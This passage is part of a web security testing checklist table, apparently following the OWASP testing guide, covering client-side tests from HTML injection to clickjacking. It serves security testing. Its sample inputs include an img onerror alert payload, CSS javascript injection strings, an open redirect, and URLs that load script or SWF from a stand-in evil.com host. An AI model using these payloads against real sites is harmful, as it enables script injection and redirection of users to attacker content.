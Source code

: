 |OTG-CLIENT-003                             |Testing for HTML Injection                                                |Send malicious HTML code:<br>?user=<img%20src='aaa'%20onerror=alert(1)>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |Burp Proxy, ZAP|
|OTG-CLIENT-004                             |Testing for Client Side URL Redirect                                      |Modify untrusted URL input to a malicious site: (Open Redirect)<br>?redirect=www.fake-target.site                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |Burp Proxy, ZAP|
|OTG-CLIENT-005                             |Testing for CSS Injection                                                 |Inject code in the CSS context :<br>• www.victim.com/#red;-o-link:'javascript:alert(1)';-o-link-source:current; (Opera \[8,12\])<br>• www.victim.com/#red;-:expression(alert(URL=1)); (IE 7/8)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |Burp Proxy, ZAP|
|OTG-CLIENT-006                             |Testing for Client Side Resource Manipulation                             |External JavaScript could be easily injected in the trusted web site<br>www.victim.com/#http://evil.com/js.js                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |Burp Proxy, ZAP|
|OTG-CLIENT-007                             |Test Cross Origin Resource Sharing                                        |Check the HTTP headers in order to understand how CORS is<br>used (Origin Header)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |Burp Proxy, ZAP|
|OTG-CLIENT-008                             |Testing for Cross Site Flashing                                           |Decompile, Undefined variables, Unsafe methods, Include malicious SWF (http://victim/file.swf?lang=http://evil                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |FlashBang, Flare, Flasm, SWFScan, SWF Intruder|
|OTG-CLIENT-009                             |Testing for Clickjacking                                                  |Discover if a website is vulnerable by loading into an iframe, create simple web page that includes a frame containing the target.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |Burp Proxy, ClickjackingTool|